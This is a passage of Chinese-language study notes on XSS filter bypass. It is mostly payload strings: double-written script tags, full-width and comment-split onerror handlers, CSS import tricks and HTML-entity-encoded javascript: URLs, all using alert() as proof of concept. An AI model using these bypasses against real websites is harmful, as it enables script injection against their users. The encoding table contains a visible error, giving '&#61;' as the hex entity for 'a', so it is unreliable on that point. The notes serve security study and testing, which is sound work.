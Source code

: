   * **一些函数不可以加回车**(onmoveover、onerror等)

  #### (5)双写绕过

  * 针对只做了**一次过滤**的情况

  * ```html
    <script>alert(1)</script>	=>  <scr<script>ipt>alert(1)</scr</script>ipt>
    
    ```

  

  #### (6)CSS中的变形

  ```html
  a.使用全角字符
      "><img src="#" ｏｎｅｒｒｏｒ="alert(/xss/)" /><"
  b.注释会被浏览器忽略
      "><img src="#"  oner/*~*/ror="alert(/x~s~s/)" /><"
  c. 样式表中的[\]和[\0]
      "><style>@import 'javasc\ri\0pt:alert*(/xss/)';</style><"
  ```

  

  #### (7)对标签属性值进行转码

  * 对标签值使用**十进制**或**十六进制**表示

    ```html
    1. 转码
        "><a href="javascript:alert(/xss/)">click me</a><" => 
        "><a href="j&#97;v&#x61;script:alert(/xss/)">click me</a><"
        "><a href="&#1;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me</a><"
    2. 进阶变形
         "><img src="#" onerror=alert(1)></img><" => 
         "><img src="#" onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;></img><"	
            or
        "><img src="#" &#111;&#110;&#101;&#114;&#114;&#111;&#114;&#61;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;></img><"
    ```

    | 符号            | ASCII码 | 十进制   | 十六进制 |
    | --------------- | ------- | -------- | -------- |
    | a               | 97      | `&#97;`  | `&#61;`  |
    | e               | 101     | `&#101;` | `&#x65;` |
    | Tab(水平制表符) | 9       | `&#9;`   |          |
    | 换行            | 10      | `&#10;`  |          |
    | 回车            | 13      | `&#13;`  |          |
    | SOH             | 1       | `&#1;`   |          |
    | STX             | 2       | `&#2;`   |          |

